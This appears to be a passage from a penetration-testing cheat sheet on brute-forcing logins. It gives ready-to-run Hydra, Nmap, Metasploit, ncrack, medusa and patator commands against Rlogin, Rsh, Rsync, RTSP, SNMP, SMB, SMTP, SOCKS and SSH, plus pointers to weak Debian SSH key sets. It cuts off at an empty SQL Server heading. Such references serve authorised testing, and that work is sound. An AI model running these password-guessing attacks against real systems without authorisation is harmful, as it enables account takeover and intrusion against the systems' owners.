 Rlogin

hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V

Rsh

hydra -L <Username_list> rsh://<Victim_IP> -v -V

[http://pentestmonkey.net/tools/misc/rsh-grind](http://pentestmonkey.net/tools/misc/rsh-grind)

Rsync

nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>

RTSP

hydra -l root -P passwords.txt <IP> rtsp

SNMP

msf> use auxiliary/scanner/snmp/snmp_login

nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]

onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt <IP>

hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp

SMB

nmap --script smb-brute -p 445 <IP>

hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1

SMTP

hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V

hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL

SOCKS

nmap  -vvv -sCV --script socks-brute --script-args userdb=users.txt,passdb=/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt,unpwndb.timelimit=30m -p 1080 <IP>

SSH

hydra -l root -P passwords.txt [-t 32] <IP> ssh

ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]

medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh

patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'

Weak SSH keys / Debian predictable PRNG

Some systems have known flaws in the random seed used to generate cryptographic material. This can result in a dramatically reduced keyspace which can be bruteforced with tools such as snowdroppe/ssh-keybrute. Pre-generated sets of weak keys are also available such as g0tmi1k/debian-ssh.

SQL Server
